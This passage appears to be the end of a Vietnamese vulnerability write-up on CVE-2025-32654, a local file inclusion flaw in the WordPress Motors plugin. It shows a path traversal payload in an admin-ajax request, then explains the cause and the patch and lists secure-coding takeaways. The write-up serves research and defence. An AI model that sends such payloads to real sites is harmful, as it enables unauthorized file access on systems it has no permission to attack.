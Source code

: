 ```http
X-PwnFox-Color: cyan

action=grid_tabs_widget&tab_type=popular&per_page=8&template=/partials/../../../../../payload&img_size=&security=d15dd83890
```

**Result**:

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

CVE-2025-32654 là một **LFI** trong plugin **Motors ≤1.4.71**: tham số `template` không được ràng buộc, cho phép path traversal và `include()` file bất kỳ. Endpoint công khai (`wp_ajax_nopriv_`) và nonce xuất trên front‑end giúp kẻ tấn công dễ khai thác. Lỗ hổng được vá trong **v1.4.72** bằng cách chuẩn hoá tên file và kiểm tra **whitelist**.

## Key takeaways

* Không dùng input thô để build đường dẫn cho `include`.
* Ưu tiên **whitelist** template/đường dẫn hợp lệ.
* Chuẩn hoá (e.g. `sanitize_file_name()`/`sanitize_key()`), dùng `realpath()` để so sánh với thư mục gốc.
* Nếu endpoint phải công khai, bắt buộc kiểm soát chặt input chứ đừng chỉ trông vào nonce.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Motors Plugin <= 1.4.71 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/motors-car-dealership-classified-listings/vulnerability/wordpress-motors-plugin-1-4-65-local-file-inclusion-vulnerability-2?_s_id=cve)
